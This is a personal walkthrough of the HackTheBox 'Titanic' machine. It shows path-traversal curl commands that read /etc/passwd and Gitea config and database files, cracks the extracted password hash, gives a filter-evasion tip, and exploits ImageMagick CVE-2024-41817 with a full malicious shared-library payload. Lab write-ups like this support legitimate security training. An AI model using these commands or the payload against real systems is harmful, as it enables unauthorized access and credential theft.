 
2025-03-19 22:57

Source: #htb #Boot2root 

rustscan shows port 80 and 22

add to `etc/hosts` 
```sh
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```
### Enumeration

The website only has one button that is interactable i.e. validate trip. When we validate a trip, we download the ticket 

The request when captured on burp looks like 
```
GET /download?ticket=random-int.json HTTP/1.1
```
since the ticket reading functionality is not implemented securely, [[LFI]] we can replace the name of the ticket file with the one we want to read. For example `/etc/passwd` 

- we see a user named developer
- we can directly read the `user.txt` flag by replacing ticket parameters value to `/home/developer/user.txt`

since ssh key files aren't readable we read the `etc/hosts` and see a subdomain  - `dev.titanic.htb` - 
after adding this to our `etc/hosts` file and visiting the website we see This subdomain has `gitea` on it

browsing around in `gitea` we see an explore tab, it has 2 repos 
From the `docker-compose.yml` file we find out the path to the `gitea` directory

Searching on the web we find that the default config files of `gitea` are stored in `config/app.ini`

Pull out the default config via LFI using [[curl]]

```sh
curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'
```

From the configure we find out the path to the database
```sh
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

> [!tip]
> If in a CTF using UNION or SELECT is blocked then try using a different case for those words eg. Union Select.

Open `gitea.db` in SQLite: 
```
sqlite3 gitea.db  
sqlite> .tables  
sqlite> SELECT lower_name, passwd, salt FROM user;
```
****
We retrieve a hashed password (and salt) for the `developer` user.

The hash can’t be directly cracked by [[Hashcat]],  convert it manually or use [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) script to format it:

```sh
hashcat -m 10900 gitea_hash.txt rockyou.txt
```
### Privesc

[[find]] directories w write perms
```sh
find /opt -writable -type d 2>/dev/null
```

A quick `sudo -l` check reveals no direct sudo privileges. Exploring `/opt`, we find a `scripts` folder containing `identify_images.sh`. Inspecting the file, we see it calls ImageMagick’s `identify` command on uploaded images.

find path to magick and version using 
```
$ which magick
/usr/bin/magick

$ /usr/bin/magick --version
Version: ImageMagick 7.1.1-35
```

There is a matching CVE-2024-41817 under this version that allows arbitrary code execution by loading malicious shared libraries into the current working directory when running `ImageMagick`: [Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

From identify_images.sh we know that the directory we need is /opt/app/static/assets/images/. Let’s create a library that will copy the /root/root.txt file and change its permissions:

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

After a few seconds, a flag will appear in the directory
### References
https://app.hackthebox.com/machines/648
https://www.pentestnotes.ru/en/writeups/hackthebox/titanic-htb-writeup/